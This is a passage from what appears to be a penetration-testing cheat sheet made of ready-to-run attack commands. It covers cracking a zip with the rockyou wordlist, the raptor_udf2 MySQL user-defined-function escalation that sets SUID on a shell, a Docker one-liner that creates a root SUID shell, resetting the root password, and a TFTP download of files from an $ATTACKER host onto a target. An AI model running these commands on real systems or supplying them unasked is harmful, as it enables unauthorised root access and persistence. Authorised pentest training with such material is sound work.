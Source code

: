 ```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt bank-account.zip
```

### Setting up Simple HTTP server

```bash
# Linux
python -m SimpleHTTPServer 80
python3 -m http.server
ruby -r webrick -e "WEBrick::HTTPServer.new(:Port => 80, :DocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:80
```

### MySQL User Defined Fuction Privilge Escalation

Requires [raptor\_udf2.c](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/raptor_udf2.c) and [sid-shell.c](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/sid-shell.c) or [full tarball](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/raptor/raptor.tar)

```bash
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```text
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/raptor_udf2.so'));
select * from npn into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell');
```

### Docker Privilege Esclation

```bash
echo -e "FROM ubuntu:14.04\nENV WORKDIR /stuff\nRUN mkdir -p /stuff\nVOLUME [ /stuff ]\nWORKDIR /stuff" > Dockerfile && docker build -t my-docker-image . && docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh' && ./sh -c id && ./sh
```

### Resetting root Password

```bash
echo "root:spotless" | chpasswd
```

### Uploading Files to Target Machine

#### TFTP

```bash
#TFTP Linux: cat /etc/default/atftpd to find out file serving location; default in kali /srv/tftp
service atftpd start

# Windows
tftp -i $ATTACKER get /download/location/file /save/location/file
```
